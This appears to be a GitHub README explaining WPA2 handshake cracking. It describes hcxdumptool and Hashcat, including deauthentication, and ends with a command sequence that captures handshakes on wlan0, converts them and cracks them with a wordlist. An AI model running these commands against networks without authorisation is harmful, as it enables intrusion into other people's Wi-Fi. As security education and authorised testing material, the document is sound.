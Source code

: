 # WPA2-Attack-using-Hashcat-and-Hcxdumptool
# Introduction
WPA2 is the most used security protocol for securing wireless networks. Even with its robust encryption and security mechanisms, WPA2 is vulnerable to attacks, especially to those involving the handshake process. This report primarily focuses on two key tools used to attack the WPA2 secured network—Hashcat and Hcxdumptool—by exploiting the vulnerabilities in the handshake procedure. These tools enable threat actors to capture and crack WPA2 passwords by applying various attack strategies such as dictionary and brute-force attacks.

## Understanding WPA2 Security
WPA2 utilizes Advanced Encryption Standard (AES) for encryption and Pre-Shared Key (PSK) for authentication. The WPA2 handshake is essentially a four-way process that builds a secure connection between the client and the access point, referred to as the supplicant and authenticator, respectively. However, the strength of the WPA2 encryption relies deeply on the strength of the pre-shared key.

### WPA2 Four-Way Handshake Process
1. **The client sends a request to the access point (AP):** This initiates the handshake.
2. **The access point responds with its nonce:** A random value and message to start the handshake process.
3. **The client creates its own nonce and derives a session key:** Using the AP's nonce.
4. **Both client and AP share key information messages:** This confirms the establishment of a secure connection.

At this stage, the handshake is completed, and the keys for encryption are exchanged. Attackers try to capture this handshake to crack the WPA2 password using brute-force or dictionary attacks.

## Tools for WPA2 Attacks

### Hashcat
Hashcat is a powerful password cracking tool that can be used for a variety of hashing algorithms, including those used in WPA2. It utilizes the GPU (Graphics Processing Unit) to accelerate the cracking process, allowing for efficient brute-forcing or dictionary-based cracking of passwords.

#### WPA2 Handshake Process in Hashcat
When an attacker captures the WPA2 handshake, it contains the hash of the WPA2 Pre-Shared Key (PSK) obtained from the passphrase. This hash can be cracked using Hashcat to retrieve the original passphrase.

#### Common Attacks in Hashcat:
- **Brute-Force Attack:** Tries all possible combinations of characters until it cracks the password.
- **Dictionary Attack:** Tests all possible password combinations from a wordlist, matching the hash of the words in the list with the captured hash.
- **Rule-Based Attack:** Applies predefined rules to a dictionary by adding prefixes, suffixes, or replacing characters to create an extensive password list.

### Hcxdumptool
Hcxdumptool is a tool used for capturing WPA2 handshakes from wireless networks. As part of the hcxtools suite, it is designed to attack both WPA2 and WPA3 networks.

#### Key Features of Hcxdumptool:
- **Capture WPA2 Handshakes:** Captures the four-way handshake while the client is attempting to connect with the access point.
- **De-Authentication Attacks:** Sends de-authentication packets to force clients to reconnect to the access point, initiating a handshake capture.
- **Output Formats:** Saves the captured handshake in various formats, such as `.pcapng`, which can be converted for use in Hashcat.
### Network Diagram
  ![image](https://github.com/user-attachments/assets/a699ef07-bd25-4ec1-a0e7-a55f4174e5aa)

### WPA2 Attack and Cracking Script
#### This script captures and cracks WPA2 Wi-Fi traffic using hcxdumptool and Hashcat.

#### Install Required Packages
```bash

sudo apt-get update
sudo apt-get install -y libcurl4-openssl-dev libssl-dev pkg-config libpcap-dev
```
#### Clone the hcxdumptool Repository and Navigate to It
git clone https://github.com/ZerBea/hcxdumptool.git
cd hcxdumptool

#### Stop Network Management Services
sudo systemctl stop NetworkManager.service
sudo systemctl stop wpa_supplicant.service

#### Capture Wi-Fi Traffic
sudo hcxdumptool -i wlan0 -w dumpfile.pcapng -F --rds=1

#### Restart Network Management Services After Capture
sudo systemctl start wpa_supplicant.service
sudo systemctl start NetworkManager.service

#### Convert Captured Traffic to Hash File
hcxpcapngtool -o hash.hc22000 -E essidlist dumpfile.pcapng

#### Scan for MAC Addresses
sudo hcxdumptool -i wlan0 --rcascan=a

#### Crack Wi-Fi Hashes Using Hashcat
hashcat -m 22000 hash.hc22000 rockyou.txt --show

